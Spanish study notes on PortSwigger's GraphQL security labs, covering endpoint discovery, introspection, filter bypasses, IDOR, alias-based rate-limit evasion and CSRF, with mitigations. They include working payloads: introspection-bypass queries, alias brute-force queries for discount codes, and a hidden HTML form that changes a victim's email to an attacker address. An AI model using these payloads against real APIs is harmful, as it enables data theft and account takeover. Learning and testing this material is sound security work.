

# 🦜 Port Swigger

## Encontrar endpoints de GraphQL

Antes de que puedas probar una API de GraphQL, primero necesitas encontrar su endpoint. Como las APIs de GraphQL usan el mismo endpoint para todas las solicitudes, esta es una pieza de información valiosa.

**Nota**\
Esta sección explica cómo buscar manualmente los endpoints de GraphQL. Sin embargo, Burp Scanner puede probar automáticamente los endpoints de GraphQL como parte de sus escaneos. Si se descubre algún endpoint, se genera un problema denominado "GraphQL endpoint found".

## Consultas Universales

Si envías `query{__typename}` a cualquier endpoint de GraphQL, incluirá la cadena `{"data": {"__typename": "query"}}` en alguna parte de su respuesta. Esto se conoce como una consulta universal, y es una herramienta útil para verificar si una URL corresponde a un servicio de GraphQL.

La consulta funciona porque cada endpoint de GraphQL tiene un campo reservado llamado `__typename` que devuelve el tipo del objeto consultado como una cadena.

## Nombres Comunes de Endpoints

Los servicios de GraphQL a menudo utilizan sufijos similares para sus endpoints. Al probar para encontrar endpoints de GraphQL, deberías intentar enviar consultas universales a las siguientes ubicaciones:

* /graphql
* /api
* /api/graphql
* /graphql/api
* /graphql/graphql

## Nombres Comunes de Endpoints - Continuación

Si los endpoints comunes mencionados anteriormente no devuelven una respuesta de GraphQL, podrías intentar agregar el sufijo `/v1` al final de la ruta.

### Sugerencias adicionales

* **¿Por qué agregar `/v1`?**\
  Algunos servicios de GraphQL implementan versiones y el endpoint `/v1` podría estar relacionado con una versión específica de la API.
*   **Error típico**:\
    Los servicios de GraphQL suelen responder a solicitudes no relacionadas con GraphQL con un error como:\
    `"query not present"` o mensajes similares que indican que la solicitud no contiene una consulta válida de GraphQL.

    **Nota importante**: Al realizar pruebas para detectar endpoints de GraphQL, asegúrate de considerar los posibles errores que podrían arrojar las rutas no gráficas. Estos errores pueden ser indicativos de que el servicio está disponible pero no configurado correctamente para manejar peticiones que no sean de GraphQL.

## Métodos de Solicitud

El siguiente paso para encontrar endpoints de GraphQL es probar con diferentes métodos de solicitud.

### Métodos de solicitud recomendados

* **POST con `application/json`**:\
  En producción, los endpoints de GraphQL suelen aceptar solo solicitudes POST con el tipo de contenido `application/json`. Esto ayuda a proteger contra vulnerabilidades de CSRF.
* **Alternativas a POST**:\
  Algunos endpoints pueden aceptar otros métodos, como solicitudes GET o POST con el tipo de contenido `x-www-form-urlencoded`.

### Qué hacer si no encuentras el endpoint:

Si no puedes encontrar el endpoint de GraphQL enviando solicitudes POST a los endpoints comunes, prueba reenviar la consulta universal utilizando métodos HTTP alternativos, como:

* **GET**: Aunque no es tan seguro ni tan común, algunos servicios pueden permitir consultas GraphQL a través de GET.
* **POST con `x-www-form-urlencoded`**: Algunos servicios pueden permitir solicitudes POST con este tipo de contenido, aunque no es la práctica recomendada.

**Consejo**: Siempre verifica los errores de respuesta para detectar posibles pistas sobre el método adecuado.

## Explotación de Argumentos No Saneados

Una vez que hayas encontrado el endpoint, puedes empezar a buscar vulnerabilidades. Una buena forma de comenzar es probando los **argumentos de la consulta**.

### Vulnerabilidades de Control de Acceso

Si la API usa argumentos para acceder a objetos directamente, podría ser vulnerable a fallos de control de acceso. Un usuario podría, potencialmente, acceder a información a la que no debería tener acceso simplemente suministrando un argumento que corresponda a esa información. A este tipo de vulnerabilidad se le conoce como **referencia a objeto directo insegura (IDOR)**.

#### Más Información

* Para una explicación general sobre los argumentos de GraphQL, consulta la sección de **Argumentos**.
* Para más detalles sobre IDORs, consulta el artículo sobre **Referencias a objetos directos inseguras (IDOR)**.

## Explotación de Argumentos No Saneados - Continuación

Por ejemplo, la siguiente consulta solicita una lista de productos de una tienda en línea:

#### Ejemplo de consulta de productos

```json
query {
    products {
        id
        name
        listed
    }
}
```

La lista de productos devuelta contiene solo los productos listados.

#### Ejemplo de respuesta de productos

```json
{
    "data": {
        "products": [
            {
                "id": 1,
                "name": "Producto 1",
                "listed": true
            },
            {
                "id": 2,
                "name": "Producto 2",
                "listed": true
            },
            {
                "id": 4,
                "name": "Producto 4",
                "listed": true
            }
        ]
    }
}
```

A partir de esta información, podemos inferir lo siguiente:

* Los productos tienen una ID secuencial.
* El producto con ID 3 está ausente de la lista, posiblemente porque ha sido eliminado.

#### Consulta para obtener el producto faltante

```json
query {
    product(id: 3) {
        id
        name
        listed
    }
}
```

#### Respuesta del producto faltante

```json
{
    "data": {
        "product": {
            "id": 3,
            "name": "Producto 3",
            "listed": false
        }
    }
}
```

## Descubrir Información del Esquema

El siguiente paso al probar la API es recopilar información sobre el esquema subyacente.

La mejor manera de hacer esto es utilizar consultas de introspección. La introspección es una función incorporada en GraphQL que permite consultar un servidor para obtener información sobre el esquema.

La introspección te ayuda a entender cómo interactuar con una API GraphQL. También puede revelar datos potencialmente sensibles, como campos de descripción.

## Usando la Introspección

Para utilizar la introspección y descubrir la información del esquema, consulta el campo `__schema`. Este campo está disponible en el tipo raíz de todas las consultas.

Al igual que con las consultas regulares, puedes especificar los campos y la estructura de la respuesta que deseas recibir al ejecutar una consulta de introspección. Por ejemplo, podrías querer que la respuesta contenga solo los nombres de las mutaciones disponibles.

**Nota:**\
Burp puede generar consultas de introspección por ti. Para más información, consulta la sección sobre **Accediendo a los esquemas de la API GraphQL utilizando introspección**.

## Sondeando la Introspección

Lo ideal es deshabilitar la introspección en los entornos de producción, pero este consejo no siempre se sigue.

Puedes sondear la introspección utilizando la siguiente consulta simple. Si la introspección está habilitada, la respuesta devolverá los nombres de todas las consultas disponibles.

**Solicitud de sondeo de introspección:**

```json
{
    "query": "{__schema{queryType{name}}}"
}
```

**Nota:**\
Burp Scanner puede probar automáticamente la introspección durante sus escaneos. Si encuentra que la introspección está habilitada, informa un problema titulado **"GraphQL introspection enabled"**.

## Ejecutando una consulta de introspección completa

El siguiente paso es ejecutar una consulta de introspección completa contra el endpoint para obtener la mayor cantidad de información posible sobre el esquema subyacente.

La consulta de ejemplo a continuación devuelve detalles completos sobre todas las consultas, mutaciones, suscripciones, tipos y fragmentos.

**Consulta de introspección completa:**

```json
query IntrospectionQuery {
    __schema {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
        types {
            ...FullType
        }
        directives {
            name
            description
            args {
                ...InputValue
            }
            onOperation  # A menudo debe eliminarse para ejecutar la consulta
            onFragment   # A menudo debe eliminarse para ejecutar la consulta
            onField      # A menudo debe eliminarse para ejecutar la consulta
        }
    }
}

fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
        name
        description
        args {
            ...InputValue
        }
        type {
            ...TypeRef
        }
        isDeprecated
        deprecationReason
    }
    inputFields {
        ...InputValue
    }
    interfaces {
        ...TypeRef
    }
    enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
    }
    possibleTypes {
        ...TypeRef
    }
}

fragment InputValue on __InputValue {
    name
    description
    type {
        ...TypeRef
    }
    defaultValue
}

fragment TypeRef on __Type {
    kind
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}
```

**Nota:**\
Si la introspección está habilitada pero la consulta anterior no se ejecuta, intenta eliminar las directivas `onOperation`, `onFragment` y `onField` de la estructura de la consulta. Muchos endpoints no aceptan estas directivas como parte de una consulta de introspección, y a menudo puedes obtener mejores resultados con la introspección eliminándolas.

## Visualización de los resultados de introspección

Las respuestas a las consultas de introspección pueden contener mucha información, pero a menudo son muy largas y difíciles de procesar.

Una manera de visualizar mejor estas relaciones es utilizando un **visualizador de GraphQL**. Esta es una herramienta en línea que toma los resultados de una consulta de introspección y genera una representación visual de los datos devueltos, incluidas las relaciones entre las operaciones y los tipos.

**Ventajas de usar un visualizador:**

* **Facilidad de comprensión**: Permite ver de manera clara y organizada las conexiones entre los diferentes tipos y operaciones del esquema de GraphQL.
* **Exploración interactiva**: Los visualizadores suelen permitir la navegación interactiva por los tipos, lo que facilita la búsqueda de relaciones y posibles puntos de ataque.
* **Mejora la eficiencia**: En lugar de tener que leer largas respuestas JSON, puedes obtener una representación gráfica que te permita entender mejor cómo interactúan los elementos del esquema.

**Pasos básicos para utilizar un visualizador de GraphQL:**

1. Realiza una consulta de introspección completa contra el endpoint de GraphQL.
2. Copia los resultados de la consulta.
3. Pega esos resultados en el visualizador de GraphQL (por ejemplo, en herramientas como [GraphQL Voyager](https://apis.guru/graphql-voyager/) o [GraphiQL](https://github.com/graphql/graphiql)).
4. Explora la representación visual del esquema para comprender las relaciones y encontrar áreas de interés.

**Nota:**\
Los visualizadores pueden hacer que la exploración de un esquema de GraphQL sea mucho más accesible, especialmente cuando se trata de esquemas grandes y complejos.

## Sugerencias en GraphQL

Incluso si la introspección está completamente desactivada, a veces puedes utilizar **sugerencias** para obtener información sobre la estructura de una API de GraphQL.

Las **sugerencias** son una característica de la plataforma Apollo GraphQL, donde el servidor puede sugerir en los mensajes de error enmiendas a las consultas. Esto generalmente ocurre cuando una consulta es ligeramente incorrecta pero aún reconocible (por ejemplo, "No hay ninguna entrada para 'productInfo'. ¿Quiso decir 'productInformation' en su lugar?").

Aunque estas sugerencias no son un sustituto directo de la introspección, pueden brindarte pistas valiosas sobre cómo está estructurado el esquema de la API. Los mensajes de error con sugerencias te están proporcionando indirectamente partes válidas del esquema que pueden ayudarte a entender mejor las consultas y las relaciones de datos.

#### Ejemplo:

Supón que haces una consulta incorrecta como la siguiente:

```graphql
query {
    productInfo(id: 1) {
        name
        price
    }
}
```

El servidor podría responder con un mensaje de error similar a:

```
Error: No se encontró la entrada para 'productInfo'. ¿Quiso decir 'productInformation' en su lugar?
```

Este mensaje te da la pista de que existe un campo **productInformation** en el esquema, lo cual te ayuda a ajustar tu consulta para obtener la información correcta.

#### Cómo aprovechar las sugerencias:

1. **Realiza consultas que posiblemente estén ligeramente incorrectas.** Intenta realizar una consulta con un nombre de campo que sospeches que puede estar cerca de uno válido.
2. **Observa los mensajes de error.** Los mensajes de error que incluyen sugerencias pueden proporcionarte detalles útiles sobre los nombres de los campos y las estructuras de datos disponibles.
3. **Haz pequeñas modificaciones a las consultas.** Si recibes sugerencias sobre nombres de campos o entradas, ajusta tu consulta y vuelve a intentarlo, lo que te puede ayudar a descubrir nuevas partes del esquema.

#### Nota:

```
Las sugerencias no son un mecanismo formal de acceso al esquema, pero pueden ser una herramienta útil para descubrir partes de la estructura de la API de GraphQL sin tener acceso a introspección.
```

## Sugerencias - Continuación

**Clairvoyance** es una herramienta que utiliza las sugerencias para recuperar automáticamente todo o parte de un esquema de GraphQL, incluso cuando la introspección está deshabilitada. Esto hace que sea mucho menos tedioso y rápido reconstruir la información a partir de las respuestas de sugerencias.

#### Cómo funciona Clairvoyance:

Clairvoyance explota la capacidad del servidor para sugerir correcciones a consultas incorrectas, aprovechando los mensajes de error generados cuando una consulta está mal estructurada. A medida que realiza consultas y ajusta automáticamente los parámetros, puede obtener gradualmente información sobre el esquema completo de la API.

**Ventajas**:

* **Recuperación automática del esquema**: Puede reconstruir partes del esquema de manera eficiente sin necesidad de realizar búsquedas manuales.
* **Reducción de tiempo**: No es necesario realizar múltiples pruebas o consultar todos los puntos finales manualmente. Clairvoyance automatiza el proceso utilizando sugerencias.
* **Operación sin introspección**: Esto es especialmente útil cuando la introspección está deshabilitada, lo que normalmente dificultaría la obtención de información sobre el esquema.

#### Limitaciones:

* **Dependencia de las sugerencias**: Esta herramienta solo es eficaz si el servidor está configurado para ofrecer sugerencias en caso de errores. Si las sugerencias están desactivadas, Clairvoyance no podrá recuperar el esquema.

#### Nota:

No puedes deshabilitar las sugerencias directamente en **Apollo**. Sin embargo, puedes encontrar una solución alternativa en este hilo de GitHub.

#### Integración con Burp Suite:

Burp Scanner puede probar automáticamente las sugerencias como parte de sus escaneos. Si detecta que las sugerencias están habilitadas, Burp Scanner informará un problema denominado "GraphQL suggestions enabled" (Sugerencias de GraphQL habilitadas).

#### EJEMPLO PRÁCTICO



<figure><figcaption></figcaption></figure>

_Podemos ver una página web básica._

<figure><figcaption></figcaption></figure>

_Si vamos a `/graphql/v1` podemos ver que nos dice que el método no es el correcto, esto es porque graphql solo acepta peticiones por POST._

<figure><figcaption></figcaption></figure>

_Mandamos esta solicitud al repeater._

<figure><figcaption></figcaption></figure>

_La cambiamos a POST y podemos ver que nos informa de que no hay un content-type_

<figure><figcaption></figcaption></figure>

_Agregamos esto:`Content-Type: application/json` a la solicitud._

<figure><figcaption></figcaption></figure>

_Hacemos la petición universal_

```json
{
	"query": "{__typename}"
}
```

<figure><figcaption></figcaption></figure>

_Introinstrocpección_

```json
{
    "query": "{__schema{queryType{name}}}"
}
```

<figure><figcaption></figcaption></figure>

_Cambiamos la visualización del Repeater a GraphQL_

<figure><figcaption></figcaption></figure>

_Agregamos el payload entero_

```json
query IntrospectionQuery {
    __schema {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
        types {
            ...FullType
        }
        directives {
            name
            description
            args {
                ...InputValue
            }
            onOperation  # A menudo debe eliminarse para ejecutar la consulta
            onFragment   # A menudo debe eliminarse para ejecutar la consulta
            onField      # A menudo debe eliminarse para ejecutar la consulta
        }
    }
}

fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
        name
        description
        args {
            ...InputValue
        }
        type {
            ...TypeRef
        }
        isDeprecated
        deprecationReason
    }
    inputFields {
        ...InputValue
    }
    interfaces {
        ...TypeRef
    }
    enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
    }
    possibleTypes {
        ...TypeRef
    }
}

fragment InputValue on __InputValue {
    name
    description
    type {
        ...TypeRef
    }
    defaultValue
}

fragment TypeRef on __Type {
    kind
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}
```

_La respuesta nos está dando un error, vamos a eliminar unas lineas_

<figure><figcaption></figcaption></figure>

```json
query IntrospectionQuery {
    __schema {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
        types {
            ...FullType
        }
        directives {
            name
            description
            args {
                ...InputValue
            }
        }
    }
}

fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
        name
        description
        args {
            ...InputValue
        }
        type {
            ...TypeRef
        }
        isDeprecated
        deprecationReason
    }
    inputFields {
        ...InputValue
    }
    interfaces {
        ...TypeRef
    }
    enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
    }
    possibleTypes {
        ...TypeRef
    }
}

fragment InputValue on __InputValue {
    name
    description
    type {
        ...TypeRef
    }
    defaultValue
}

fragment TypeRef on __Type {
    kind
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}
```

<figure><figcaption></figcaption></figure>

_Ahora podemos ver este resultado que es el que esperabamos._

<figure><figcaption></figcaption></figure>

_Entramos a esta web y pegamos el output_




<figure><figcaption></figcaption></figure>

_Podremos ver el esquema de GrapQL_

<figure><figcaption></figcaption></figure>

_Ahora en la página bsucamos una req a GraphQL._

<figure><figcaption></figcaption></figure>

_La mandamos al repeater y podemos ver los campos que se emplean_

<figure><figcaption></figcaption></figure>

_Agregamos el campo: `postPassword` pero vemos en la respuesta un null..._

<figure><figcaption></figcaption></figure>

_En el 3 podemos ver una contraseña_

#### EJEMPLO PRÁCTICO



_Cuando entramos vemos una web y podemos ve run "My account"_

<figure><figcaption></figcaption></figure>

_Vemos un formulario de loggin_

<figure><figcaption></figcaption></figure>

_Ahora interceptamos una solicitud de inicio de sesión._

<figure><figcaption></figcaption></figure>

_Instalamos esta extensión en el BurpSuite_

<figure><figcaption></figcaption></figure>

_Copiamos la URL_

<figure><figcaption></figcaption></figure>

_Lo pegamos en la extensión._

<figure><figcaption></figcaption></figure>

_En getUser podemos ver la query para recuperar información de un usuario_

<figure><figcaption></figcaption></figure>

_Ahora hacemos la query con el getUser en la petición con el repeater de antes._

## Evadiendo defensas de introspección en GraphQL

Cuando las consultas de introspección no funcionan en una API que estás probando, puedes intentar estrategias para sortear las defensas configuradas por los desarrolladores.

### 1. **Insertar un carácter especial en `__schema`**

Los desarrolladores a menudo deshabilitan la introspección utilizando expresiones regulares para bloquear consultas que contienen la palabra clave `__schema`. Sin embargo, estas expresiones regulares pueden ser defectuosas y no considerar variaciones de la palabra clave con caracteres adicionales.

#### Ejemplo de caracteres útiles:

* Espacios ( )
* Saltos de línea ()
* Comas (`,`)

GraphQL ignora estos caracteres al procesar la consulta, pero una expresión regular mal configurada no.

#### Consulta de introspección con salto de línea:

```json
{
    "query": "query{__schema
    {queryType{name}}}"
}
```

_En este caso, el salto de línea después de `__schema` puede permitir que la consulta pase a través del filtro._

### 2. **Probar métodos de solicitud alternativos**

Si la introspección sigue bloqueada, es posible que las defensas estén limitadas a un método de solicitud específico, como `POST`. Puedes intentar las siguientes alternativas:

#### a) **Solicitudes GET**

Algunos servidores permiten introspección a través de `GET` incluso si está deshabilitada para `POST`.

#### b) **`POST` con un tipo de contenido diferente**

Intenta enviar la consulta con un encabezado `content-type` alternativo, como:

* `application/x-www-form-urlencoded`
* `text/plain`

Esto puede evadir defensas que solo verifican solicitudes con `application/json`.

***

### Notas:

1. La evasión puede no ser posible si las defensas están bien configuradas y aplican validaciones robustas.
2. El uso de herramientas como **Burp Suite** o scripts personalizados puede automatizar estas pruebas para explorar posibles configuraciones vulnerables.

## Evadiendo defensas de introspección en GraphQL - Parte 2

Otra técnica para evadir defensas de introspección consiste en modificar el método de solicitud y codificar los parámetros en la URL.

***

### 1. **Sonda de introspección con método GET**

Algunos servidores pueden permitir introspección a través de solicitudes `GET`, incluso si está deshabilitada para `POST`. En este caso, se pueden enviar consultas codificadas como parámetros en la URL.

#### Ejemplo de solicitud GET:

```http
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

#### Desglose de la URL codificada:

* `query` → Indica que es una consulta GraphQL.
* `%7B` → Representa `{`.
* `%0A` → Representa un salto de línea ().
* `%7D` → Representa `}`.

**Consulta decodificada:**

```json
query {
    __schema
    {
        queryType {
            name
        }
    }
}
```

***

### 2. **Guardando consultas en el mapa del sitio**

Cuando realizas pruebas extensivas en GraphQL, es útil mantener un registro organizado de tus consultas. Esto se puede hacer guardando las solicitudes y respuestas directamente en herramientas como **Burp Suite**.

* Para más información sobre cómo gestionar consultas, consulta la documentación de **Working with GraphQL**.

***

### Notas importantes:

1. **Pruebas automatizadas:** Herramientas como Burp Scanner pueden automatizar el envío de introspección en diferentes métodos y formatos para maximizar la cobertura de prueba.
2. **Configuraciones específicas:** Algunos servidores pueden bloquear métodos alternativos como `GET` o aplicar validaciones más estrictas en entornos de producción.

Con estas técnicas, puedes probar posibles puntos de evasión para detectar configuraciones vulnerables.

#### EJEMPLO PRÁCTICO




<figure><figcaption></figcaption></figure>

_Vamos a explorar las funcionalidades de la página._

<figure><figcaption></figcaption></figure>

_En el HTTP history podemos ver que no hay nada de GraphQL_

<figure><figcaption></figcaption></figure>

_Encontramos este endpoint por nuestra cuenta._

<figure><figcaption></figcaption></figure>

_Nos da un error de la query._

<figure><figcaption></figcaption></figure>

_Por post nos informa de un problema con el método, que no está permitido._

<figure><figcaption></figcaption></figure>

_Agregamos el siguiente payload._

```json
query {
    __schema
    {
        queryType {
            name
        }
    }
}
```

<figure><figcaption></figcaption></figure>

_Lo encodeamos todo_

<figure><figcaption></figcaption></figure>

_Podemos ver que nos devuelve lo que esperamos_

<figure><figcaption></figcaption></figure>

_Ahora mandamos una Introspection query_

<figure><figcaption></figcaption></figure>

_Nos da un error._

<figure><figcaption></figcaption></figure>

_Lo arreglamos simplemente agregando un `enter` en `__schema`_

<figure><figcaption></figcaption></figure>

_Guardamos el esquema en el site map_

<figure><figcaption></figcaption></figure>

_Podemos ver que ahora podemos ver una req de un usuario_

<figure><figcaption></figcaption></figure>

_Cambiamos el identificador de abajo y podemos ver el del Administrador_

<figure><figcaption></figcaption></figure>

_Ahora inspeccionamos otra y podemos ver que hemos eliminado al usuario._

## Evadiendo límites de velocidad en GraphQL con alias

***

### 1. **Introducción a los alias en GraphQL**

En GraphQL, los alias permiten nombrar explícitamente las propiedades que deseas que el API retorne, incluso cuando estas propiedades son del mismo tipo de objeto. Esto te permite realizar múltiples consultas de un mismo tipo en una sola solicitud HTTP.

**Ejemplo básico de alias:**

```json
query {
    firstUser: user(id: 1) {
        name
    }
    secondUser: user(id: 2) {
        name
    }
}
```

#### Resultado:

```json
{
    "data": {
        "firstUser": {
            "name": "Alice"
        },
        "secondUser": {
            "name": "Bob"
        }
    }
}
```

***

### 2. **Evadiendo límites de velocidad con alias**

Muchos endpoints GraphQL implementan limitadores de velocidad para evitar ataques de fuerza bruta. Sin embargo, estos limitadores suelen medir:

* El **número de solicitudes HTTP**, en lugar de las operaciones realizadas en el endpoint.

Dado que los alias permiten realizar múltiples consultas en una sola solicitud HTTP, puedes evadir estos límites y realizar una cantidad significativamente mayor de operaciones en un solo mensaje.

***

### 3. **Ejemplo de uso malicioso**

Supongamos que un endpoint GraphQL permite consultar productos por ID. Puedes utilizar alias para realizar múltiples consultas en una sola solicitud:

**Consulta con alias para evadir límites de velocidad:**

```json
query {
    product1: product(id: 1) {
        name
        price
    }
    product2: product(id: 2) {
        name
        price
    }
    product3: product(id: 3) {
        name
        price
    }
    # Continúa con más alias...
}
```

### 4. **Impacto potencial**

1. **Ataques de fuerza bruta**:
   * Se pueden probar múltiples combinaciones de ID de manera rápida, evadiendo los límites de solicitudes del servidor.
2. **Desbordamiento de datos**:
   * Si el servidor no limita las operaciones internas, puede sobrecargar la infraestructura.

***

### 5. **Recomendaciones para mitigar este riesgo**

* **Aplicar límites por operación**:
  * Configura el servidor para medir y limitar la cantidad de operaciones realizadas por solicitud.
* **Validar alias**:
  * Restringe la cantidad de alias permitidos en una consulta.
* **Implementar cuotas basadas en usuarios**:
  * Usa tokens de autenticación para aplicar límites por usuario o sesión.

Estas precauciones ayudan a mitigar ataques que abusan de alias para evadir restricciones.

## Evadir Limitaciones de Tasa en GraphQL con Alias

***

### **Entendiendo los Alias en GraphQL**

Los alias en GraphQL permiten renombrar propiedades explícitamente en la respuesta, incluso cuando se solicitan múltiples instancias del mismo tipo de objeto. Esto permite realizar varias solicitudes del mismo tipo en una sola consulta.

#### Ejemplo de Uso de Alias:

```json
query {
    usuarioUno: user(id: 1) {
        nombre
        correo
    }
    usuarioDos: user(id: 2) {
        nombre
        correo
    }
    usuarioTres: user(id: 3) {
        nombre
        correo
    }
}
```

**Respuesta:**

```json
{
    "data": {
        "usuarioUno": {
            "nombre": "Ana",
            "correo": "ana@ejemplo.com"
        },
        "usuarioDos": {
            "nombre": "Luis",
            "correo": "luis@ejemplo.com"
        },
        "usuarioTres": {
            "nombre": "Carlos",
            "correo": "carlos@ejemplo.com"
        }
    }
}
```

## Evasión de Limitación de Tasa Usando Alias - Ejemplo Continuado

***

### **Escenario de Ejemplo**

El siguiente ejemplo muestra cómo un atacante podría usar consultas aliadas para verificar una gran cantidad de códigos de descuento en una sola solicitud HTTP, eludiendo así los límites de tasa.

***

#### **Consulta con Alias para Validar Códigos de Descuento**

En este caso, se usa una única solicitud GraphQL con múltiples alias para consultar la validez de varios códigos de descuento.

```json
query isValidDiscount($code: Int) {
    isValidDiscount(code: $code) {
        valid
    }
    isValidDiscount2: isValidDiscount(code: $code) {
        valid
    }
    isValidDiscount3: isValidDiscount(code: $code) {
        valid
    }
    # Continúa añadiendo más alias según sea necesario...
}
```

#### **Explicación del Ejemplo**

* **Alias**:
  * Se usan diferentes nombres (`isValidDiscount2`, `isValidDiscount3`, etc.) para realizar la misma operación varias veces.
* **Parámetro Reutilizado**:
  * El valor del parámetro `$code` se usa repetidamente para probar múltiples códigos de descuento.
* **Resultado**:
  * La consulta retorna la validez de varios códigos en una sola solicitud.

***

### **Ventajas para el Atacante**

1. **Elusión de la Limitación de Tasa**:
   * Las limitaciones basadas en la cantidad de solicitudes HTTP no detectan el abuso, ya que todo ocurre en una única solicitud.
2. **Verificación Masiva**:
   * Se pueden probar cientos o miles de códigos de descuento en paralelo dentro de una sola operación.
3. **Eficiencia**:
   * Este método es más rápido y consume menos recursos del atacante en comparación con enviar múltiples solicitudes individuales.

***

#### EJEMPLO PRÁCTICO

!\[\[Pasted image 20250123094355.png]] _Iniciamos sesión_ !\[\[Pasted image 20250123094422.png]] _Generamos tráfico por la web para generar un buen site map._ !\[\[Pasted image 20250123094445.png]] _Podemos ver el endpoint de grapgQL_ !\[\[Pasted image 20250123094558.png]] _Si nos equivocamos mucho podemos ver que tenemos un ban de un minuto._ !\[\[Pasted image 20250123094654.png]] _Interceptamos la solicitud de inicio de sesión._ !\[\[Pasted image 20250123094727.png]] _Generamos una solicitud de introspección._

## GraphQL CSRF

***

### **¿Qué es CSRF?**

**Cross-site Request Forgery (CSRF)** es una vulnerabilidad que permite a un atacante inducir a un usuario a realizar acciones no intencionadas. Esto se logra creando un sitio web malicioso que genera una solicitud cruzada al dominio de la aplicación vulnerable.

* **Objetivo del ataque**:
  * Hacer que el navegador de la víctima envíe solicitudes no autorizadas sin su conocimiento.

***

### **GraphQL como Vector de Ataque**

Cuando una API GraphQL no implementa medidas de seguridad adecuadas, puede ser explotada para realizar ataques CSRF. El atacante diseña un exploit que obliga al navegador de la víctima a enviar una consulta maliciosa a la API vulnerable como si proviniera de la víctima.

***

#### **Escenario del Ataque**

1. **Preparación**:
   * El atacante crea un sitio web malicioso con código que genera una consulta GraphQL específica.
   * La consulta podría realizar acciones como cambiar configuraciones, extraer datos o iniciar operaciones sensibles.
2. **Ejecución**:
   * El atacante engaña a la víctima para que visite el sitio malicioso.
   * El navegador de la víctima envía la consulta GraphQL al servidor objetivo, utilizando las credenciales de sesión del usuario (como cookies).
3. **Resultado**:
   * El servidor interpreta la consulta como legítima y realiza la acción solicitada, causando potencial daño o acceso no autorizado.

***

### **Ejemplo de Ataque GraphQL CSRF**

#### **Consulta Maliciosa**

Un atacante podría usar una consulta para cambiar la dirección de correo electrónico de la cuenta de la víctima:

```json
mutation {
    updateEmail(email: "attacker@example.com") {
        success
    }
}
```

#### **Carga Maliciosa en el Sitio del Atacante**

El atacante inserta el código de la consulta en un formulario HTML o un script JavaScript que se ejecuta automáticamente cuando la víctima visita el sitio malicioso:

```html

```

Medidas de Mitigación

```
Uso de Tokens CSRF:
    Exigir un token impredecible y específico para cada sesión que debe incluirse en todas las consultas GraphQL.

Control de Origen:
    Validar el encabezado Origin o Referer para asegurarse de que las solicitudes provengan de fuentes confiables.

Autenticación Adicional:
    Requerir autenticación explícita para operaciones sensibles, como cambios de configuración o transacciones.

Cookies con SameSite=Strict:
    Configurar las cookies de sesión para que solo se envíen con solicitudes originadas en el mismo dominio.
```

Relevancia de GraphQL en CSRF

Aunque los ataques CSRF han sido tradicionales en aplicaciones web con formularios, las APIs GraphQL son particularmente atractivas para los atacantes debido a su capacidad para realizar múltiples operaciones en una sola solicitud. Por lo tanto, una configuración segura es crucial para mitigar riesgos.

## **¿Cómo Surgen las Vulnerabilidades de CSRF en GraphQL?**

***

### **Factores Clave que Conducen a Vulnerabilidades de CSRF en GraphQL**

1. **Falta de Validación del Tipo de Contenido (Content-Type)**:
   * Los endpoints de GraphQL que no validan el `Content-Type` de las solicitudes entrantes son más propensos a ataques CSRF.
   * Por ejemplo, mientras que `application/json` es seguro contra falsificaciones, tipos de contenido alternativos como `x-www-form-urlencoded` pueden ser explotados.
2. **Ausencia de Tokens CSRF**:
   * Sin tokens CSRF, el servidor no puede diferenciar entre solicitudes legítimas del usuario y solicitudes falsificadas iniciadas por un sitio malicioso.

***

### **Entendiendo la Validación del Content-Type**

* **Content-Type Seguro**:
  * Las solicitudes `POST` que usan `application/json` son generalmente seguras, siempre que el servidor valide estrictamente el `Content-Type`.
  * ¿Por qué? Los navegadores no pueden falsificar fácilmente solicitudes con este tipo de contenido sin interacción del usuario o pasos adicionales.
* **Content-Types Vulnerables**:
  * Solicitudes que usan `GET` o `x-www-form-urlencoded` son más vulnerables porque:
    * Los navegadores pueden enviarlas fácilmente sin el consentimiento del usuario.
    * Los atacantes pueden incrustar estas solicitudes en sitios maliciosos.

***

### **Cómo los Atacantes Explotan Estas Vulnerabilidades**

#### 1. **Solicitud Falsificada Usando GET**

*   El atacante crea una URL maliciosa que ejecuta una consulta GraphQL cuando la víctima la visita:

    ```html
    
    ```

#### 2. **Solicitud Falsificada Usando x-www-form-urlencoded**

*   El atacante utiliza un formulario oculto para enviar consultas GraphQL maliciosas:

    ```html
    <form method="POST" action="https://aplicacion-vulnerable.com/graphql">
        <input type="hidden" name="query" value="mutation{updateEmail(email:'hacker@example.com'){success}}">
        <input type="submit">
    </form>
    ```
* Cuando la víctima envía el formulario (o si un script lo envía automáticamente), el servidor procesa la solicitud maliciosa.

***

### **Pasos para Mitigar Vulnerabilidades de CSRF en GraphQL**

1. **Validación Estricta del Content-Type**:
